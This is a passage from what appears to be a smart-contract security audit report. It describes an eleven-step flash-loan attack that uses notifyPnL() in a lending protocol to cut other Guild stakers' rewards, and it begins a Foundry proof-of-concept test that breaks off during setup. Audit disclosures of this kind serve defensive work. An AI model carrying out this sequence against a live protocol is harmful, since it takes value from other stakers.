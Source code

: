 Here are the detailed steps to execute the described attack:

1. Alice borrows 100 gUSDC.
2. Transfers the borrowed gUSDC to the EXPLOITER account.
3. Waits for 150 days to accumulate interest on the loan. (waiting period can also be shorter, for just 10 days the impact will be slightly lower → 4 decimals less removed from the stakers rewards)
4. EXPLOITER obtains a USDC flash loan.
5. Mints gUSDC through `PSM`.
6. Stakes the minted gUSDC into the same term using SurplusGuildMinter.
7. Repays Alice's position, triggering `notifyPnL()`.
8. `notifyPnL()` updates the `_gaugeProfitIndex`, reducing rewards for other Guild holders.
9. EXPLOITER unstakes.
10. Redeems USDC through PSM.
11. Returns the flash loan.

### Coded PoC

Create new file in `test/unit/loan` called `DeflateGuildHoldersRewards.t.sol`

```solidity
// SPDX-License-Identifier: GPL-3.0-or-later
pragma solidity 0.8.13;

import {Test, console} from "@forge-std/Test.sol";
import {Core} from "@src/core/Core.sol";
import {CoreRoles} from "@src/core/CoreRoles.sol";
import {GuildToken} from "@src/tokens/GuildToken.sol";
import {CreditToken} from "@src/tokens/CreditToken.sol";
import {ProfitManager} from "@src/governance/ProfitManager.sol";
import {MockLendingTerm} from "@test/mock/MockLendingTerm.sol";
import {RateLimitedMinter} from "@src/rate-limits/RateLimitedMinter.sol";
import {SurplusGuildMinter} from "@src/loan/SurplusGuildMinter.sol";

contract DeflateGuildHoldersRewardsUnitTest is Test {
    address private governor = address(1);
    address private guardian = address(2);
    address private ALICE = makeAddr("alice");
    address private EXPLOITER = makeAddr("exploiter");
    address private STAKER1 = makeAddr("staker1");
    address private STAKER2 = makeAddr("staker2");
    address private STAKER3 = makeAddr("staker3");
    address private termUSDC;
    Core private core;
    ProfitManager private profitManagerUSDC;
    CreditToken gUSDC;
    GuildToken guild;
    RateLimitedMinter rlgm;
    SurplusGuildMinter sgmUSDC;

    // GuildMinter params
    uint256 constant MINT_RATIO = 2e18;
    uint256 constant REWARD_RATIO = 5e18;

    function setUp() public {
        vm.warp(1679067867);
        vm.roll(16848497);
        core = new Core();

        profitManagerUSDC = new ProfitManager(address(core));
        gUSDC = new CreditToken(address(core), "gUSDC", "gUSDC");
        guild = new GuildToken(address(core), address(profitManagerUSDC));
        rlgm = new RateLimitedMinter(
            address(core), /*_core*/
            address(guild), /*_token*/
            CoreRoles.RATE_LIMITED_GUILD_MINTER, /*_role*/
```
